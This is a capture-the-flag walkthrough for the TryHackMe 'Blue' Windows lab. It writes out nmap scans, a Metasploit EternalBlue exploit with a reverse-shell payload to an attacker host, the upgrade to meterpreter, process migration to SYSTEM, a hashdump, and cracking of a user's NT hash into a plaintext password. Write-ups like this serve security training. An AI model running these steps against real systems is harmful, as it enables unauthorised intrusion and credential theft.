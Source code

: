 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/blue.jpg)           |
| :------------------ | --------------------------------------- |
| 🔗 Name              | [Blue](https://tryhackme.com/room/blue) |
| 🎯 Target IP         | `10.10.177.175`                         |
| 📈 Difficulty level  | 🟢Easy                                   |
| 💲 Subscription type | Free                                    |
| 🪟 OS                | Windows                                 |

---

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

---

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

---

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

---

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* 🚩 In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
flag{*******************
```

![](.gitbook/assets/2024-10-20_22-09-30_758.png)

```bash
cd C:/Windows/System32/config
cat flag2.txt
flag{*****************************
```

![](.gitbook/assets/2024-10-20_22-11-22_759.png)

```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
flag{********************************
```

![](.gitbook/assets/2024-10-20_22-12-04_760.png)


***
